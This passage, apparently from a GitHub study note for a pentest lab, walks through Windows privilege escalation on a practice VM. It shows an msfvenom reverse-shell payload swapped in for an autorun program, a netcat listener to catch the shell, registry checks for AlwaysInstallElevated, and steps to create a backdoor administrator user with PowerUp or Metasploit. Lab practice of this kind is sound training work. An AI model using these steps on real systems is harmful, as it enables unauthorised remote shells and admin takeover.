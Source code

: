 1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53 -f exe -o program.exe
```
3. Transfer the generated file, `program.exe`, to the Windows VM.

### Windows VM

1. replace `program.exe` in `'C:\Program Files\Autorun Program'`

### Kali VM

1. Wait for a reverse shell on your kali machine.

# <span style="color:lightblue">AlwaysInstallElevated</span>

## <span style="color:lightgreen">Methodology</span>

# AlwaysInstallElevated  is a type of Registry Escalation.

run powerup and check if the AlwaysInstallElevated is there or not. if yes you can run the command that is in the powerup to add a new user to the administrator group (it will generate a program to add the user)

check AlwaysInstallElevated from the cmd. if the AlwaysInstallElevated has a value of 0x1 means it's on
```console
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
 then run the program that powerup generated to create a backdoor user and set the user to the administrator group
another option is to use meterpreter to elevate your session
-     exploit/windows/local/always_install_elevated

## <span style="color:lightgreen">Detection</span>
### Windows VM

1. Open command prompt and type: 
```console
C:\Temp> reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```
+ `0x1` means its ON
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/7f8ab42c-77c2-4e52-b0d7-06fdf5ccd1fd)
